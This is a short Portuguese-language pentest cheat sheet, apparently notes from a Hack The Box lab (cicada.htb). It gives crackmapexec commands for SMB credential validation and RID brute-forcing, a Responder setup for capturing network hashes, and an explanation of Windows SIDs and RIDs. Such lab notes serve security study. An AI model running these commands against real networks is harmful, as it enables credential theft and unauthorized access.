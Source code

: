 validando credenciais:
```
sudo crackmapexec smb hosts.txt -d cicada.htb -u <USER> -p <PASS>
```


# Active Directory (AD)

## hashes na rede
arquivo de configuração
```
/etc/responder/Responder.conf
```
obs: altera a linha respondTo para incluir apenas os nossos hosts alvo

```
responder -I eth0 -Prv
```

## Relative Identifier (RID)
O RID é a parte final de um **SID (Security Identifier)**, que identifica de forma exclusiva contas de usuários, grupos ou outros objetos de segurança
RIDs Comuns em Sistemas Windows

Estrutura do SID e o Papel do RID
```
S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-RID
```
- `S-1-5`: Identificador padrão do Windows.
- `21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX`: Porção única associada ao domínio ou computador. É chamado de **SID base**.
- RID: Identificador específico que diferencia contas, grupos ou outros objetos dentro do mesmo domínio ou sistema.


Um **SID** típico segue o formato:

|**RID**|**Descrição**|
|---|---|
|**500**|Administrador|
|**501**|Convidado|
|**512**|Grupo Administradores do Domínio|
|**513**|Grupo Usuários do Domínio|
|**1000+**|Contas de usuários criadas manualmente|
bruteforce de RID
```
crackmapexec smb 10.10.11.35 -u guest -p '' -d cicada.htb --shares --rid-brute
```
